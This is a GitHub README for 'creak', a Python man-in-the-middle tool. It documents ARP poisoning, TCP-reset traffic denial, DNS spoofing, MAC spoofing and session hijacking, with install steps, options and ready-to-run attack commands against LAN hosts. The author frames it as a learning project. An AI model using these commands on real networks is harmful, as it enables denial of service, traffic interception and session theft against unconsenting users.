 # creak

Performs some of the most famous MITM attack on target addresses located in a
local network. Among these, deny navigation and download capabilities of a
target host in the local network performing an ARP poison attack and sending
reset TCP packets to every request made to the router.
Born as a didactic project for learning python language, I decline every
responsibility for any abuse, including malevolent or illegal use of this code.

## Installation

```sh
$ git clone https://github.com/codepr/creak.git
$ cd creak
$ python setup.py install
```
or simply clone the repository and run the `creak.py` after all requirements are
installed:

```sh
$ git clone https://github.com/codepr/creak.git
```

It is required to have installed `pcap` libraries for raw packet manipulations
and `dpkt` module, for dns spoofing options is required to have installed dnet
module from `libdnet` package, do not confuse it with pydnet (network evaluation
tool) module.
It can use also `scapy` if desired, can just be set in the `config.py` file.

## Options

```sh
Usage: creak.py [options] dev

Options:
  -h, --help           show this help message and exit
  -1, --sessions-scan  Sessions scan mode
  -2, --dns-spoof      Dns spoofing
  -3, --session-hijack Try to steal a TCP sessions by desynchronization (old technique)
  -x, --spoof          Spoof mode, generate a fake MAC address to be used
                       during attack
  -m MACADDR           Mac address octet prefix (could be an entire MAC
                       address in the form AA:BB:CC:DD:EE:FF)
  -M MANUFACTURER      Manufacturer of the wireless device, for retrieving a
                       manufactur based prefix for MAC spoof
  -s SOURCE            Source ip address (e.g. a class C address like
                       192.168.1.150) usually the router address
  -t TARGET            Target ip address (e.g. a class C address like
                       192.168.1.150), can be specified multiple times
  -p PORT              Target port to shutdown
  -a HOST              Target host that will be redirect while navigating on
                       target machine
  -r REDIR             Target redirection that will be fetched instead of host
                       on the target machine
  -v, --verbose        Verbose output mode
  -d, --dotted         Dotted output mode
```

## Example

Most basic usage:
Deny all traffic to the target host

```sh
$ python creak.py -t 192.168.1.30 wlan0
```

Set a different gateway:

```sh
$ python creak.py -s 192.168.1.2 -t 192.168.1.30 wlan0
```

Set a different mac address for the device:

```sh
$ python creak.py -m 00:11:22:33:44:55 -t 192.168.1.30 wlan0
```

Spoof mac address generating a fake one:

```sh
$ python creak.py -x -t 192.168.1.30 wlan0
```

Spoof mac address generating one based on manufacturer(e.g Xeros):

```sh
$ python creak.py -x -M xeros -t 192.168.1.30 wlan0
```

DNS spoofing using a fake MAC address, redirecting ab.xy to cd.xz(e.g.
		localhost):

```sh
$ python creak.py -x -M xeros -t 192.168.1.30 -a www.ab.xy -r www.cd.xz wlan0
```

Deny multiple hosts in the subnet:

```sh
$ python creak.py -x -t 192.168.1.30 -t 192.168.1.31 -t 192.168.1.32 wlan0
```

## Changelog

See the [CHANGELOG](CHANGELOG.md) file.

## TODO

- Sessions grouping based on active load usage
- Complete `Scapy` support (**started**)
- Sessions hijacking (**started**)
- Port to a micro-framework wih plugin architecture (**started**)

## License

See the [LICENSE](LICENSE.md) file for license rights and limitations (GNU v3).
